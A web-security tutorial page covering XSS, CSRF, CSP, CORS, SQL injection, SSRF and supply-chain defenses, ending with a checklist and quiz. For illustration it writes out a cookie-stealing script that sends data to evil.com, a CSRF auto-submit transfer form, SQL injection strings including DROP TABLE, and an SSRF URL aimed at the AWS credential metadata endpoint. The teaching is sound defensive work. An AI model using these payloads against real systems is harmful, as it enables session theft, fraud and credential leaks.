

# Web security beyond auth: XSS, CSRF, CSP, CORS, SQLi, SSRF, supply chain

> **In one line:** Auth answers "who are you." This page answers "even after auth, how do we stop attackers from injecting code, forging requests, exfiltrating data, or compromising your dependencies?"

→ **Going deeper:** [Security Beyond HTTPS](/docs/roadmap/part-3-beyond/security) walks the threat model end to end — authz/IDOR, injection, SSRF, secret handling, and a pre-ship checklist.

:::tip[In plain English]
A user logs in (auth ✓). Now they paste a comment that contains `<script>` — XSS. Now an attacker tricks them into clicking a link that triggers a payment from their account — CSRF. Now an unrelated dependency in your package.json runs a postinstall script that exfiltrates your env vars — supply chain. Auth doesn't stop any of these. Each has its own defense, and modern web frameworks bake most of them in *if you don't fight them*.
:::

This page is a working developer's tour of the OWASP-flavored web security landscape. Auth ([Authentication](./authentication), [Authorization](./authorization), [Secrets & keys](./secrets-and-keys)) is the other half — together they're the floor of "your app is not negligently insecure."

## The mental model: trust boundaries

Every security vulnerability is fundamentally a **trust boundary violation**. Something the system trusted (a user input, a 3rd-party dependency, a DNS response) was actually attacker-controlled.



The user is untrusted. The dependency you `npm install`-ed yesterday is untrusted. The DNS response from a server is untrusted. Your database is trusted (you built the schema). The OS is trusted (you control deployment). The browser is partially trusted (you control your origin; not the user's other tabs).

Every defense below is about clarifying which side of which boundary an input is on.

## XSS — Cross-Site Scripting

> Attacker injects JavaScript into your page; the script then runs in the victim's browser, with full access to their cookies, session, DOM.

Three flavors:

| Type | Where the payload comes from |
|------|------------------------------|
| **Reflected** | URL/query string; "click this link to see your error" |
| **Stored** | Saved in your DB and rendered to other users (comments, profiles) |
| **DOM-based** | Pure client-side: `document.write(location.hash)` |

### Concrete attack

User profile bio field accepts:

```
Hello! <script>fetch('https://evil.com/?c=' + document.cookie)</script>
```

Your page renders the bio. Anyone who views the profile leaks their cookie to evil.com. Game over for any session that cookie represented.

### Defense

**Never trust user input as HTML.** Modern frameworks default to escaping:

- **React, Vue, Svelte, Solid** — `{user.bio}` escapes by default. The ONLY way to render unescaped HTML is `dangerouslySetInnerHTML` (React) or `v-html` (Vue). The naming is a clue.
- **Server-side templating** (Jinja2, Handlebars, EJS) — escape by default; auto-escape on by default in modern setups.
- **Plain DOM** — `el.textContent = user.bio` (safe) vs `el.innerHTML = user.bio` (XSS waiting to happen).

When you genuinely need to render user-supplied rich content (markdown, HTML editors), **sanitize**:

```typescript
import DOMPurify from 'dompurify';
const safe = DOMPurify.sanitize(userMarkup, { ALLOWED_TAGS: ['b', 'i', 'em', 'a'] });
```

DOMPurify is the gold-standard sanitizer; it parses HTML and emits only an allowlist of safe tags/attributes.

For URL contexts (`<a href={user.url}>`), beware `javascript:url` schemes — explicitly check the scheme is `http`/`https`/`mailto`.

### Content Security Policy (CSP) — the defense in depth

A response header that tells the browser which scripts are allowed to run:

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; connect-src 'self' https://api.example.com; frame-ancestors 'none'; base-uri 'self';
```

> **In English:** scripts may only load from this origin or `cdn.example.com`. Styles may load from this origin (and inline `<style>` is allowed). Images from this origin, `data:` URIs, and any HTTPS. Network calls only to this origin or `api.example.com`. This page may not be iframed by anyone (`frame-ancestors 'none'`).

A good CSP **stops most XSS even if your sanitization fails**, because the injected `<script>` doesn't match your allowlist and the browser refuses to execute it.

Modern best practice: **nonce-based CSP**:

```
Content-Security-Policy: script-src 'nonce-rAnd0m123' 'strict-dynamic';
```

Your server generates a fresh random nonce per response, includes it in your legitimate `<script nonce="rAnd0m123">` tags. Injected scripts have no nonce → blocked. The `'strict-dynamic'` keyword lets scripts you load propagate the trust.

CSP is *the* defense that makes XSS hard to exploit even on a vulnerable app. Worth the deployment effort.

## CSRF — Cross-Site Request Forgery

> Attacker tricks the victim's *browser* into making a request to your app, leveraging the victim's session cookie.

The classic:

```html
<!-- on evil.com, rendered to a logged-in victim of yourbank.com -->
<form action="https://yourbank.com/transfer" method="POST">
  <input name="to" value="attacker">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit();</script>
```

The browser sends the request with the victim's `yourbank.com` cookies attached. Your server sees an authenticated request from the legitimate user, executes the transfer.

### Defenses (any one suffices, defense-in-depth recommends multiple)

1. **`SameSite` cookies** (the modern default).

   ```
   Set-Cookie: session=...; HttpOnly; Secure; SameSite=Lax
   ```

   `SameSite=Lax` (browser default since 2020) means the cookie isn't sent on cross-site POSTs/PUTs/DELETEs. `SameSite=Strict` is even tighter — not sent on top-level navigations from external sites either. For most apps, `Lax` is correct.

2. **CSRF tokens** — a random per-session value stored server-side, embedded in your HTML, required on state-changing requests. Without the token, request is rejected. Frameworks: Django, Rails, Laravel ship this by default.

3. **Origin/Referer header check** — for state-changing endpoints, verify the request originated from your own origin. Cheap, complementary.

4. **JSON endpoints with custom headers.** A browser cross-site POST can't set `Content-Type: application/json` from a simple form, and can't set custom headers without a CORS preflight. So if your API requires `Content-Type: application/json` + a custom header like `X-Requested-With: fetch`, it's CSRF-resistant by construction.

For modern SPAs using JWT in `Authorization: Bearer …` (not cookies), CSRF is largely a non-issue — the JWT isn't auto-sent by the browser. But session cookies are still common for good reasons; if you use them, `SameSite=Lax` minimum.

## CORS — Cross-Origin Resource Sharing

CORS is **frequently misunderstood as a security feature applied to your server**. It is not. CORS is a *relaxation* of the browser's same-origin policy, controlled by your server's response headers.

The same-origin policy: a script on `app.example.com` cannot read responses from `api.other.com`. That's the default; it's there to stop a malicious page from reading your bank's API on your behalf.

CORS is the opt-in: your `api.other.com` says "actually, I'm fine with `app.example.com` reading my responses":

```
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Authorization, Content-Type
```

For state-changing requests (POST with non-simple Content-Type, PUT, DELETE, any custom header), the browser sends a **preflight** `OPTIONS` request first to check. Your server responds with allowed origins/methods/headers. Then the real request.

### Common mistakes

- **`Access-Control-Allow-Origin: *` with credentials.** Browsers refuse this combo — if you allow credentials, you must specify an exact origin (or reflect the `Origin` header after validating it). `*` + credentials = misconfiguration, not security.
- **Reflecting any origin.** `Access-Control-Allow-Origin: ${req.headers.origin}` without validation effectively allows any site to read your authenticated responses. Maintain an allowlist.
- **Treating CORS as a server-side defense.** A non-browser client (curl, a malicious server) ignores CORS entirely. CORS protects the browser's other-tab users from your responses being read by a malicious site. Authorization is still your job.

## SQL injection

> Attacker controls part of a SQL string; ends up changing the query's semantics.

The canonical:

```typescript
// ❌ NEVER
const sql = `SELECT * FROM users WHERE email = '${userInput}'`;
```

If `userInput` is `' OR '1'='1`, the query returns every user. If it's `'; DROP TABLE users; --`, well…

### Defense

**Parameterized queries**, always. The DB driver sends the query and the values separately; the values never touch the SQL parser.

```typescript
// ✓ Safe
await db.query('SELECT * FROM users WHERE email = $1', [userInput]);

// Or with an ORM (Prisma):
await prisma.user.findUnique({ where: { email: userInput } });
```

ORMs and query builders (Prisma, Drizzle, Kysely, Knex) parameterize by default. Raw SQL with template literals is the danger zone.

If you must build dynamic SQL (`ORDER BY` user-chosen column), use an **allowlist**, never user input directly:

```typescript
const ALLOWED_SORT = ['name', 'created_at', 'email'];
if (!ALLOWED_SORT.includes(sortColumn)) throw new Error('invalid sort');
```

## SSRF — Server-Side Request Forgery

> Attacker tricks your server into making HTTP requests on their behalf, often to internal services.

You build a feature: "give us a URL, we'll fetch the og:image to show a preview." Attacker provides:

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

That's the AWS EC2 metadata endpoint. Your server, running on EC2, fetches it and returns the response (or the og:image headers). You just leaked your IAM credentials.

Other SSRF targets:
- `http://localhost:6379/` — your Redis.
- `http://10.0.0.5:5432/` — your internal Postgres.
- `file:///etc/passwd` — if your fetcher accepts `file://`.

### Defense

- **Allowlist domains** when possible.
- **Resolve the URL's hostname**, reject if it's a private/link-local IP (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.0/8`, `169.254.0.0/16`, `::1`, `fc00::/7`).
- **Block unusual schemes** — accept only `http`/`https`.
- **Don't follow redirects** automatically. Or re-validate the resolved IP after each redirect.
- **Use a dedicated outbound proxy** in production with these rules enforced.
- **For AWS specifically**, use IMDSv2 (requires a session token, can't be exploited by simple SSRF). Set `http_put_response_hop_limit=1` on instance metadata options.

## Supply chain attacks

> Malicious code enters your app via a dependency.

The 2026 reality: a typical npm app has 1500+ transitive dependencies, often updated weekly. Any one could be compromised.

Real incidents in recent years:
- `event-stream` (npm) — popular package, maintainer added a malicious dependency targeting Bitcoin wallets.
- `colors` (npm) — maintainer pushed a version that broke thousands of apps as a protest.
- `xz-utils` (Linux) — multi-year social-engineering campaign to backdoor SSH via a compression library.
- Typo-squat packages (`react-dom-utils` vs `react-dom-router`) — install once, exfiltrate env.

### Defense

- **Lockfiles** (`package-lock.json`, `yarn.lock`, `pnpm-lock.yaml`). Always commit; CI uses `npm ci` (or `pnpm install --frozen-lockfile`), which fails on lockfile drift.
- **Audit regularly** — `npm audit`, `pnpm audit`, GitHub Dependabot. Fix known-CVE issues weekly.
- **Pin major versions**; avoid `latest`. A `^1.2.3` accepts `1.x.x`; the lockfile pins the exact version.
- **Disable postinstall scripts in CI** for dependencies — `npm install --ignore-scripts` plus a manual review for the few packages that legitimately need them.
- **Use `npm install --omit=dev` in production builds.** Dev tools don't ship to prod containers.
- **SBOMs** (Software Bill of Materials) — CycloneDX, SPDX. Make the dependency tree auditable.
- **Signed packages** — npm provenance, Sigstore. The 2026 trend; sign your own publishes too.
- **Watch for typo-squats** on your dependencies. Right name, right org.
- **Verify what new deps you add.** A junior PR adding `random-util-package@0.0.1` from an unknown author is a moment to ask why.

## Other classes worth knowing

### Open redirects

`https://yoursite.com/redirect?url=https://evil.com` — your site bounces users to evil. Used in phishing because the initial URL looks legit. Defense: allowlist of allowed redirect targets; never trust user input as a redirect destination.

### Clickjacking

Attacker embeds your page in an invisible iframe, tricks user into clicking buttons they can't see. Defense: `X-Frame-Options: DENY` (or `frame-ancestors 'none'` in CSP). Modern browsers reject iframe embedding when these are set.

### HSTS — HTTP Strict Transport Security

```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

Tells the browser "always use HTTPS for this domain, for the next year, even if the user types `http://`." Prevents downgrade attacks. Submit to the HSTS preload list once you're confident.

### Cookie security flags

```
Set-Cookie: session=...; HttpOnly; Secure; SameSite=Lax; Path=/
```

- `HttpOnly` — JS can't read the cookie (mitigates XSS-stealing-session).
- `Secure` — only sent over HTTPS.
- `SameSite=Lax` — CSRF defense as above.
- `Path` / `Domain` — scope appropriately.

Set all four on every authenticated cookie. Modern frameworks default to the right thing; double-check.

### Rate limiting and abuse prevention

The line between security and operations is fuzzy. See [Rate limiting](./rate-limiting) for the details; from a security angle, every login endpoint, password reset, and signup endpoint needs IP-based rate limiting at minimum.

### Encryption in transit and at rest

- **In transit:** HTTPS for everything user-facing. Internal services in a VPC can be HTTP; in zero-trust setups, mTLS internally.
- **At rest:** DB-level encryption (AWS RDS, Cloud SQL — usually on by default). Application-level encryption for the *specific* sensitive fields (using KMS) when stricter regulatory regimes demand it.
- **Backup encryption** — yes, even backups. They get stolen too.

### Logging — but not the secrets

See [Secrets & API keys](./secrets-and-keys). Don't log auth tokens, raw request bodies for sensitive endpoints, or PII without redaction.

## The 2026 baseline checklist

A web app is **not negligently insecure** if it:

- [ ] Escapes user input on render by default (modern framework — React, Vue, etc.)
- [ ] Sanitizes any rich content with DOMPurify or equivalent
- [ ] Sets a CSP, even if loose (`script-src 'self'` at minimum)
- [ ] Uses parameterized queries everywhere (ORM or query builder)
- [ ] Sets `SameSite=Lax` + `HttpOnly` + `Secure` on session cookies
- [ ] Uses HTTPS everywhere with HSTS
- [ ] Validates redirect URLs against an allowlist
- [ ] Sets `X-Frame-Options: DENY` (or CSP `frame-ancestors 'none'`)
- [ ] Commits lockfiles, runs `npm audit` in CI
- [ ] Pins dependency major versions
- [ ] Uses `npm ci` (or equivalent) in CI for reproducible installs
- [ ] Avoids `--ignore-scripts=false` for unknown deps
- [ ] Rate-limits auth, signup, password reset endpoints
- [ ] Logs auth events without logging the credentials
- [ ] For SSRF-prone features: allowlist destinations, block private IPs
- [ ] Reviews dependency diffs in PRs

Most of those are *defaults* in a modern Next.js / Remix / SvelteKit / Rails app. The discipline is in noticing when you've turned one off.

:::info[Highlight: the framework is your first line of defense]
React doesn't render `<script>` from user input. Prisma doesn't accept string-interpolated SQL. Next.js sets `SameSite=Lax` on session cookies by default. **Most security comes from not fighting the framework.** The bugs come from "we needed a custom thing" — sanitizer disabled to allow rich HTML, raw SQL for performance, custom auth because Auth.js was too heavy. Be twice as careful when you opt out of defaults.
:::

## Common mistakes

:::caution[Where people commonly trip up]
- **`dangerouslySetInnerHTML` with unsanitized content.** The name was deliberately scary. Never feed it user input without DOMPurify.
- **`Access-Control-Allow-Origin: *` with credentials.** Browsers refuse this; teams then "fix" it by reflecting the request's `Origin` without validation, which is worse. Use an explicit allowlist.
- **CORS as a security boundary.** Non-browser clients ignore it. Auth + authorization is the real boundary.
- **Hand-built SQL with template literals.** "It's only an admin endpoint, what could go wrong?" Admins can be phished too. Parameterize always.
- **Open redirects that "only redirect to our subdomains."** Until the user-input parser has a bug. Allowlist exact URLs or paths, not patterns.
- **Skipping HSTS because "we'll add it later."** Without HSTS, the first HTTP request can be intercepted and redirected to a malicious clone. Set it before the first user signs up.
- **`npm install` in CI** (instead of `npm ci`). The first command can update the lockfile silently; the second fails if lockfile and package.json disagree. Reproducible builds need `ci`.
- **No audit cadence.** Vulnerabilities pile up. A weekly Dependabot pass + a security ticket triage hour is the minimum hygiene.
- **Postinstall scripts run unreviewed.** Some packages legitimately need them; many don't. Audit new deps; consider `--ignore-scripts` plus an allowlist.
- **Trusting the `Origin` header as authentication.** Servers can fake any header. CORS' `Origin` is enforced by the browser, not the server's identity proof.
- **Logging the full request including `Authorization`.** Now your log store is a credentials store. Use a header allowlist.
:::

## Page checkpoint

<Quiz id="foundations-web-security-page" title="Did web security stick?" sampleSize={2}>

<Question
  prompt="A React app interpolates a user's profile bio with `<div dangerouslySetInnerHTML={{ __html: bio }} />`. Why is this dangerous?"
  options={[
    { text: "It's slower than `{bio}`" },
    { text: "It bypasses React's default HTML escaping, letting a user save `<script>` (or ``) in their bio that executes for every visitor — stored XSS. Use a sanitizer like DOMPurify when rich content is needed" },
    { text: "It only works in production" },
    { text: "It violates the CSP" }
  ]}
  correct={1}
  explanation="`dangerouslySetInnerHTML` is the explicit opt-out from React's escaping. The name is the warning. If users provide content, sanitize it (allowlist tags via DOMPurify) before rendering."
  revisit={{ to: "/docs/foundations/web-security#xss--cross-site-scripting", label: "XSS defenses" }}
/>

<Question
  prompt="A team sets `SameSite=Lax` on session cookies. What attack class does this defend against?"
  options={[
    { text: "XSS" },
    { text: "CSRF — a cross-site form auto-submitted from `evil.com` to `yourapp.com` won't carry the session cookie on state-changing requests, so the request reaches the server unauthenticated and is rejected" },
    { text: "SQL injection" },
    { text: "Supply chain attacks" }
  ]}
  correct={1}
  explanation="SameSite=Lax means the browser only attaches the cookie on top-level navigations and same-site requests. A cross-site auto-POST from evil.com → yourapp.com no longer carries the session — the attacker can't piggyback on the user's auth."
  revisit={{ to: "/docs/foundations/web-security#csrf--cross-site-request-forgery", label: "SameSite for CSRF" }}
/>

<Question
  prompt="A 'fetch this URL and show preview' feature accepts user URLs. Attacker submits `http://169.254.169.254/latest/meta-data/`. What just happened?"
  options={[
    { text: "Nothing — that's not a real URL" },
    { text: "SSRF — your server (running on EC2) fetched its own instance metadata endpoint, potentially exposing IAM credentials. Defense: resolve the URL's IP, reject private/link-local ranges, allowlist schemes (http/https only), and use IMDSv2" },
    { text: "CORS blocked it" },
    { text: "It's a XSS attack" }
  ]}
  correct={1}
  explanation="The attacker turned your server into a proxy to internal addresses. Always resolve hostnames and block private IP ranges before any user-controlled outbound fetch. IMDSv2 (session-token-required) further protects AWS metadata."
  revisit={{ to: "/docs/foundations/web-security#ssrf--server-side-request-forgery", label: "SSRF" }}
/>

<Question
  prompt="A team gets a Dependabot alert about a vulnerable transitive dependency they've never heard of. What's the right reaction?"
  options={[
    { text: "Ignore it — we don't use that package directly" },
    { text: "Investigate: which direct dependency pulls it in, what's the severity, is the vulnerable code path reachable in our usage; then patch via `npm audit fix`, version override, or replacement. Transitive deps run with the same privileges as your code" },
    { text: "Delete `node_modules`" },
    { text: "Switch to a different language" }
  ]}
  correct={1}
  explanation="Transitive dependencies aren't isolated — a malicious postinstall in dep-of-dep runs with your CI's env vars. Investigate severity and reachability, patch promptly. 'We don't use it directly' is not isolation."
  revisit={{ to: "/docs/foundations/web-security#supply-chain-attacks", label: "Supply-chain defense" }}
/>

</Quiz>

## What's next

→ Continue to [Concurrency & async](./concurrency).
